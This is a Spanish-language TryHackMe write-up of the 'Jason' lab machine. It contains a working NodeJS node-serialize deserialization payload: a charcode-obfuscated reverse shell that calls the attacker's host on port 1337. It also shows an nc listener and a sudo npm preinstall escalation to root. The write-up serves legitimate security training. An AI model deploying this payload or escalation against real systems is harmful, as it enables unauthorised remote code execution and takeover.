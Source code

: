 ```yaml
---
title : "Jason - Write Up - Español"
date : 2021-10-12T20:02:42+02:00
author : "Lanfran02"
cover : "cover.png"
useRelativeCover : true
description : "Máquina de nivel fácil en TryHackMe."
tags : ["NodeJS","unserialize","sudo","nc","TryHackMe"]
---
```


| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/jason)  | Fácil  |  [elbee](https://tryhackme.com/p/elbee)  |


## Reconocimiento

Comenzando como en cada CTF, corremos `nmap` contra la máquina.

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.237.12 -p- -sS --min-rate 5000 -n -Pn                                                          ─╯
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-12 20:11 CEST
Nmap scan report for 10.10.237.12
Host is up (0.25s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.81 seconds
```
¡Bien! ¡Encontramos un servidor web ejecutándose en el puerto `80`!

¡Vayamos directamente a el!

![email](email.png)

Es solo una página creada en `NodeJS` que nos muestra el correo electrónico que usamos.

Pero... ¡Tenemos una cookie de sesión!

![cookies](cookies.png)

Tal vez podamos decodificarla para ver qué tiene dentro... 

```bash
╰─ lanfran@parrot ❯ echo "eyJlbWFpbCI6ImFkbWluQGVtYWlsLmNvbSJ9" | base64 -d                                                        ─╯
{"email":"admin@mail.com"}% 
```

¡¡¡Excelente!!! ¡Sabemos que esta cookie almacena el correo electrónico que usamos como entrada!

## Acceso inicial - Usuario

Buscando en Google algún exploit de deserialización para NodeJS, encontré [este sitio](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)donde explican el exploit muy bien!

En resumen, necesitaremos crear un codigo para obtener una shell reversa en NodeJS, serializarlo y codificarlo en base64 para usarlo como nuestra cookie de sesión.

[Aquí está el archivo para crear el código para la shell reversa en NodeJS](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

Y después de obtener el código, puede usar la [online node-serialize](https://npm.runkit.com/node-serialize) librería para serializar su payload! [Aquí](https://runkit.com/embed/g49fa5tg1ozl) es una plantilla sobre cómo debería ser su código.

¡También te dejo el código a continuación!

```js
var y = {"email": function(){eval(String.fromCharCode(your_payload))}};

var serialize = require('node-serialize');
var serialezd = serialize.serialize(y);
console.log(serialezd)
```

Después de eso, no olvides agregar el último () al final del payload, como te explican en [esta publicación](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
![explain](last_\(\).png)

Su código serializado debería verse similar a esto:
```js
{"email":"_$$ND_FUNC$$_function email() {\n          eval(String.fromCharCode(10, 118, 97, 114, 32, 110, 101, 116, 32, 61, 32, 114, 101, 113, 117, 105, 114, 101, 40, 39, 110, 101, 116, 39, 41, 59, 10, 118, 97, 114, 32, 115, 112, 97, 119, 110, 32, 61, 32, 114, 101, 113, 117, 105, 114, 101, 40, 39, 99, 104, 105, 108, 100, 95, 112, 114, 111, 99, 101, 115, 115, 39, 41, 46, 115, 112, 97, 119, 110, 59, 10, 72, 79, 83, 84, 61, 34, 49, 48, 46, 57, 46, 52, 46, 49, 49, 55, 34, 59, 10, 80, 79, 82, 84, 61, 34, 49, 51, 51, 55, 34, 59, 10, 84, 73, 77, 69, 79, 85, 84, 61, 34, 53, 48, 48, 48, 34, 59, 10, 105, 102, 32, 40, 116, 121, 112, 101, 111, 102, 32, 83, 116, 114, 105, 110, 103, 46, 112, 114, 111, 116, 111, 116, 121, 112, 101, 46, 99, 111, 110, 116, 97, 105, 110, 115, 32, 61, 61, 61, 32, 39, 117, 110, 100, 101, 102, 105, 110, 101, 100, 39, 41, 32, 123, 32, 83, 116, 114, 105, 110, 103, 46, 112, 114, 111, 116, 111, 116, 121, 112, 101, 46, 99, 111, 110, 116, 97, 105, 110, 115, 32, 61, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 105, 116, 41, 32, 123, 32, 114, 101, 116, 117, 114, 110, 32, 116, 104, 105, 115, 46, 105, 110, 100, 101, 120, 79, 102, 40, 105, 116, 41, 32, 33, 61, 32, 45, 49, 59, 32, 125, 59, 32, 125, 10, 102, 117, 110, 99, 116, 105, 111, 110, 32, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 32, 123, 10, 32, 32, 32, 32, 118, 97, 114, 32, 99, 108, 105, 101, 110, 116, 32, 61, 32, 110, 101, 119, 32, 110, 101, 116, 46, 83, 111, 99, 107, 101, 116, 40, 41, 59, 10, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 99, 111, 110, 110, 101, 99, 116, 40, 80, 79, 82, 84, 44, 32, 72, 79, 83, 84, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 41, 32, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 118, 97, 114, 32, 115, 104, 32, 61, 32, 115, 112, 97, 119, 110, 40, 39, 47, 98, 105, 110, 47, 115, 104, 39, 44, 91, 93, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 119, 114, 105, 116, 101, 40, 34, 67, 111, 110, 110, 101, 99, 116, 101, 100, 33, 92, 110, 34, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 112, 105, 112, 101, 40, 115, 104, 46, 115, 116, 100, 105, 110, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 115, 116, 100, 111, 117, 116, 46, 112, 105, 112, 101, 40, 99, 108, 105, 101, 110, 116, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 115, 116, 100, 101, 114, 114, 46, 112, 105, 112, 101, 40, 99, 108, 105, 101, 110, 116, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 111, 110, 40, 39, 101, 120, 105, 116, 39, 44, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 111, 100, 101, 44, 115, 105, 103, 110, 97, 108, 41, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 101, 110, 100, 40, 34, 68, 105, 115, 99, 111, 110, 110, 101, 99, 116, 101, 100, 33, 92, 110, 34, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 125, 41, 59, 10, 32, 32, 32, 32, 125, 41, 59, 10, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 111, 110, 40, 39, 101, 114, 114, 111, 114, 39, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 101, 41, 32, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 101, 116, 84, 105, 109, 101, 111, 117, 116, 40, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 44, 32, 84, 73, 77, 69, 79, 85, 84, 41, 59, 10, 32, 32, 32, 32, 125, 41, 59, 10, 125, 10, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 59, 10));\n        }()"}
```
_No olvides el último () !!!! De lo contrario, el payload no funcionará._

Después de eso, ¡codifíquelo en base64 y utilícelo como una cookie!

Actualizando la página, _mientras escuchamos en el puerto deseado_, ¡ahora deberíamos tener una shell reversa como `Dylan`!

```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.4.117] from (UNKNOWN) [10.10.237.12] 43016
Connected!
id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
cat /home/dylan/user.txt
0[REDACTED]c

```
## Root

¡Excelente! ¡Escalemos a root!

¡Un reconocimiento normal nos da información útil!

```bash
dylan@jason:~$ sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

¡Nuestro usuario puede ejecutar `npm` como` root`!

Usando [GTFOBins](https://gtfobins.github.io/gtfobins/npm/) podemos escalar fácilmente a root!

```bash 
dylan@jason:~$ TF=$(mktemp -d)
dylan@jason:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
dylan@jason:~$ sudo npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.mskP1rW5qW
> /bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
2[REDACTED]e
```

¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!